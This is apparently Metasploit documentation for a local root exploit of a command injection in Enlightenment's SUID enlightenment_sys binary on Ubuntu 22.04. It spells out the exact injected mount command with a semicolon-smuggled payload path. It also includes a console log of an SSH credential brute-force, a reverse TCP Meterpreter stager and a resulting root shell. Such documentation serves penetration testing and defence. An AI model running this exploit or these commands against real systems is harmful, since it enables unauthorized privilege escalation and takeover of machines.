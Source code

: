 ## Vulnerable Application

This module exploits a command injection within Enlightenment's
`enlightenment_sys` binary. This is done by calling the mount
command and feeding it paths which meet all of the system
requirements, but execute a specific path as well due to a
semi-colon being used.
This module was tested on Ubuntu 22.04.1 X64 Desktop with
enlightenment 0.25.3-1 (current at module write time)

### Install

At the time of writing, it was possible to `apt install enlightmentent` to
get a vulnerable version.

### Main Command Explanation

The main exploit command will look similar to the following (using `/tmp/exploit` as the payload path example):

`/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net`

This can be broken down in to several parts:

1. `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`
2. `/bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u)`
3. `"/dev/../tmp/;/tmp/exploit"`
4. `/tmp///net`

The first part calls the vulnerable executable which has `suid` set to root.

The second portion is a standard mount, command. `enlightenment_sys` has a fork in the code
for `mount`, which has the vulnerability in it.

The third portion starts with `/dev/` to prevent the binary from exiting.  It is wrapped in
double quotes, which are later removed by `enlightenment_sys` before running the command
resulting in the command injection.

Lastly `enlightenment_sys` checks that the last parameter is length 6, thus the extra `/`.
It then calls `stat64` on `/tmp///net` and we pass that check.

Now that all the checks have passed and the exploit code should go down the path to a `system`
call. Again, the quotes are removed around `"/dev/../tmp/;/tmp/exploit"` , allowing for the `;`
to be relevant and cause a command injection.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get a userland shell
4. Do: `use exploits/linux/local/ubuntu_enlightenment_mount_priv_esc`
5. Do: `set session #`
6. Set payload and options for payload as needed
7. Do: `run`
8. You should get a root shell.

## Options

### WritableDir

A directory which is writable to drop our payload in. Defaults to `/tmp`

## Scenarios

### Ubuntu 22.04.1 Desktop with Enlightenment 0.25.3-1

Step 1, get a userland shell

```
resource (enlightenment.rb)> use auxiliary/scanner/ssh/ssh_login
resource (enlightenment.rb)> set username ubuntu
username => ubuntu
resource (enlightenment.rb)> set password ubuntu
password => ubuntu
resource (enlightenment.rb)> set rhosts 192.168.2.31
rhosts => 192.168.2.31
resource (enlightenment.rb)> run
[*] 192.168.2.31:22 - Starting bruteforce
[+] 192.168.2.31:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),134(lxd),135(sambashare) Linux ubuntu2204desktop 5.15.0-43-generic #46-Ubuntu SMP Tue Jul 12 10:30:17 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.2.199:35675 -> 192.168.2.31:22) at 2022-10-01 10:02:53 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Step 2, run exploit

```
resource (enlightenment.rb)> use exploits/linux/local/ubuntu_enlightenment_mount_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
resource (enlightenment.rb)> set session 1
session => 1
resource (enlightenment.rb)> set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_enlightenment_mount_priv_esc) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[+] The target appears to be vulnerable.
[*] Finding enlightenment_sys
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[*] Writing '/tmp/.7n09J2bt6' (250 bytes) ...
[*] Max line length is 65537
[*] Writing 250 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Creating folders for exploit
[+] Found binary: /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
[+] It's set for SUID
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 192.168.2.31
[*] Meterpreter session 2 opened (192.168.2.199:4444 -> 192.168.2.31:54700) at 2022-10-01 10:03:12 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.2.31
OS           : Ubuntu 22.04 (Linux 5.15.0-43-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
